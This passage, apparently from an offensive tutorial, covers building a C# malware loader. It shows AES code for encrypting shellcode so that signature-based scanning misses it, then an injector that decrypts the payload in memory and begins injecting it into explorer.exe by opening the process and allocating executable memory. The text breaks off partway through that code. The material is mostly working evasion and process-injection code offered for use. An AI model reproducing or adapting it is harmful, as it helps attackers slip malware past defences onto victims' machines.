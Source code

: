 ### Step 2: Encrypt the Shellcode

Next, we need to encrypt the generated shellcode using AES. The key principle is to use a strong encryption algorithm to conceal the malicious payload from static signature-based scanning. You would typically create a small utility program to do this.

**Conceptual C# Code for Encryption:**
```csharp
using System.Security.Cryptography;
using System.IO;

public byte[] EncryptShellcode(byte[] shellcode, byte[] key, byte[] iv)
{
    using (Aes aesAlg = Aes.Create())
    {
        aesAlg.Key = key;
        aesAlg.IV = iv;

        ICryptoTransform encryptor = aesAlg.CreateEncryptor(aesAlg.Key, aesAlg.IV);

        using (MemoryStream msEncrypt = new MemoryStream())
        {
            using (CryptoStream csEncrypt = new CryptoStream(msEncrypt, encryptor, CryptoStreamMode.Write))
            {
                csEncrypt.Write(shellcode, 0, shellcode.Length);
            }
            return msEncrypt.ToArray();
        }
    }
}
```
**Important:** The `key` and `IV` (Initialization Vector) used for encryption must be stored securely and embedded within the final injector program so it can decrypt the payload at runtime.

### Step 3: Create the Injector Program

The final step is to create the C# program that will carry the encrypted shellcode, decrypt it in memory, and inject it into a host process. This program is often called a "loader" or "runner."

The injector performs the following actions:
1.  Stores the encrypted shellcode in a byte array.
2.  Contains the AES key and IV for decryption.
3.  Uses a decryption function to restore the original shellcode in memory.
4.  Leverages Windows API calls to inject and execute the shellcode.

**Key Windows APIs for Injection:**
*   `VirtualAllocEx`: Allocates memory within a remote process.
*   `WriteProcessMemory`: Writes the decrypted shellcode into the allocated memory.
*   `CreateRemoteThread`: Creates a new thread in the remote process to execute the shellcode.

**Conceptual C# Code for Decryption and Injection:**
```csharp
// Assume 'buf' is the byte array with your encrypted shellcode
// Assume 'key' and 'iv' are the same ones used for encryption

// 1. Decrypt the shellcode
byte[] decryptedShellcode = AESDecrypt(buf, key, iv);

// 2. Find a target process (e.g., explorer.exe)
Process targetProcess = Process.GetProcessesByName("explorer")[0];
IntPtr processHandle = OpenProcess(0x1F0FFF, false, targetProcess.Id);

// 3. Allocate memory in the target process
IntPtr remoteMemAddr = VirtualAllocEx(processHandle, IntPtr.Zero, (uint)decryptedShellcode.Length, 0x3000, 0x40);
```